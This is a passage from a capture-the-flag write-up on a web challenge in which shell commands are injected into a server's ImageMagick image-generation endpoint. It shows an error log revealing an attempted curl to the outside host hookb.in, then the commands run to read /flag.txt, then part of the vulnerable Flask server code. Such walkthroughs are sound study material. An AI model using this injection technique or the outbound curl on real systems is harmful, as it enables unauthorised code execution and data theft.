 ```
Something went wrong : b"convert-im6.q16: missing an image filename `+100+100\' @ error/convert.c/ConvertImageCommand/3226.\n % Total % Received % Xferd Average Speed Time Time Time Current\n Dload Upload Total Spent Left Speed\n\r 0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:01 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:02 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:03 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:04 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:05 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:06 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:07 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:08 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:09 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:10 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:11 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:12 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:13 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:14 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:15 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:16 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:17 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:18 --:--:-- 0\r 0 0 0 0 0 0 0 0 --:--:-- 0:00:19 --:--:-- 0curl: (6) Could not resolve host: hookb.in\n/bin/sh: 1: -composite: not found\n"
```
RCE accomplished! Though the curl command failed showing could not resolve host, we can now try other commands like `ls`
and the server responded with
```
{"msfrog": "fe\nimg\nserver.py\nwsgi.py\n"}
```
## Exploiting the RCE to get the flag <a name="rce">
Now that we have successfully found a way to execute arbitrary code on the server, all there's left to do is to find where the flag is located.
I will now list the commands and outputs that led me to the flag.

**pwd**
```
{"msfrog": "/app\n"}
```
**echo $(cd / && ls)**
```
{"msfrog": "app bin boot dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var\n"}
```
**cat /flag.txt**
```
{"msfrog": "corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}\n"}
```
## Looking at the server files <a name="server">
Now that we have found the flag, why not take a look at the `server.py` file we found in `/app`
```py
import os
import json
import subprocess
from flask import Flask, send_from_directory, request

app = Flask(__name__, static_folder='fe')


@app.route('/api/generate', methods=['POST'])
def generate_msfrog():
    # Check if we received JSON
    if not request.is_json:
        return "I only speak JSON :c", 400

    # Grab all the msfrog accessoires
    accessoires = None
    try:
        accessoires = request.get_json()
    except:
        return "nice json", 400
        
    if not accessoires or not isinstance(accessoires, list):
```